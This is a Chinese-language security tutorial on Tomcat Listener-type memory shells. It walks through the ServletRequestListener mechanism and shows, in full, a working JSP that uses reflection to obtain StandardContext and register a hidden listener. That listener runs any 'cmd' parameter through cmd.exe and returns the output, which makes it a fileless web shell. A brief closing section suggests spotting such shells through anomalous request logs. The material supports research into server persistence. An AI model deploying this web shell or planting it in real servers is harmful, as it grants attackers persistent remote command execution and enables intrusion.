






# Tomcat-Listener型内存马

## 初步体验监听器创建

其中要实现两个方法：

**requestInitialized：**在request对象创建时触发

**requestDestroyed：**在request对象销毁时触发

简单实现一下Listener

```Java
public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("destroy TestListener");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
    }
}
```

在`web.xml中

```xml
<listener>
    <listener-class>com.yyds.TestListener</listener-class>
</listener>
```


## 流程分析

我们知道监听器的过程：Listener -> Filter -> Servlet

Listener是最先被加载的, 所以可以利用动态注册恶意的Listener内存马。而Listener分为以下几种：

- ServletContext，服务器启动和终止时触发
- Session，有关Session操作时触发
- Request，访问服务时触发

不难想到，其中关于监听Request对象的监听器是最适合做内存马的，只要我们访问服务就能触发相应操作

如果在Tomcat要引入listener，需要实现两种接口，分别是`LifecycleListener`和原生`EvenListener`。

实现了`LifecycleListener`接口的监听器一般作用于tomcat初始化启动阶段，此时客户端的请求还没进入解析阶段，不适合用于内存马。

另一个`EventListener`接口，在Tomcat中，自定义了很多继承于`EventListener`的接口，应用于各个对象的监听，idea下用快捷键`Ctrl+H`查看所有实现接口的类



重点来看`ServletRequestListener`接口，`ServletRequestListener`用于监听`ServletRequest`对象的创建和销毁，当我们访问任意资源，无论是servlet、jsp还是静态资源，都会触发`requestInitialized`方法

在`requestInitialized`处下断点，清楚看到调用链


我们看到listener是在StandardContext#getApplicationEventListeners方法中获得

那如何添加listener呢，可以看到在StandardContext#addApplicationEventListener添加了listener

因此我们不难想到通过反射调用StandardContext#addApplicationEventListener方法，add我们自己写的恶意listener

方式一：

```jsp
<% Field reqF = request.getClass().getDeclaredField("request"); reqF.setAccessible(true); Request req = (Request) reqF.get(request); StandardContext context = (StandardContext) req.getContext(); %>
```

方式二：

```jsp
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

因此看看这个内存马就不难理解了

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>

<%!
    public class MyListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().getWriter().write(out);
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }

        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
    MyListener listenerDemo = new MyListener();
    context.addApplicationEventListener(listenerDemo);
%>
```



删除后随便来一个



## 如何防御

如果是通过命令执行漏洞，那么看看日志的请求应该能排查

可能会有较多的404但是带有参数的请求，或者大量请求不同url但带有相同的参数，或者页面并不存在但返回200